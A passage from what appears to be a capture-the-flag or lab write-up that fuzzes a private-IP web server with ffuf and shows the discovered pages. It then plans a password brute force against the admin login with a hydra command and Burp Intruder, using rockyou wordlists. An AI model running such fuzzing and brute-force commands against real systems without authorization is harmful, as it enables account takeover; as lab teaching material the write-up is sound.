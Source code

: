 Let's see if there's anything else.
Fuzz the web root:

```bash
$ ffuf -u http://192.168.216.195/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.195/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 302, Size: 206, Words: 6, Lines: 16, Duration: 50ms]
index.php               [Status: 200, Size: 506, Words: 20, Lines: 24, Duration: 51ms]
logout.php              [Status: 302, Size: 163, Words: 6, Lines: 10, Duration: 50ms]
.                       [Status: 301, Size: 170, Words: 5, Lines: 8, Duration: 40ms]
command.php             [Status: 302, Size: 704, Words: 47, Lines: 25, Duration: 44ms]
index.Php               [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 45ms]
```

I try to access these pages, but each time, I'm redirected to the main page to login. There doesn't seem to be any other choice than to brute force this login page. Given the page login page contains the name Admin, that's likely the user here, which means I just need to brute force the password.

Ideally, I'd like to use `hydra` for this, but this is not really an option here because there is no additional information that the website will give you for an incorrect login. To do a http-post-form brute force, you'll need three colon separate things:

1. The path to the page
2. The form with USER and PASS specified
3. Something that tells hydra when an attempt has failed

Without this information, you'll have in incomplete command that would look like this:

```bash
hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt 192.168.216.195 http-post-form '/index.php:username=^USER^&password=^PASS^:' -vV
```

Burp is the better alternative here, but there is an annoying hurdle if you use the Community edition: Intruder attacks are time-throttled. So, if you don't have the Pro edition, you'll have to be patient. Start with smaller versions of rockyou.txt, then work your way up until you login successfully:
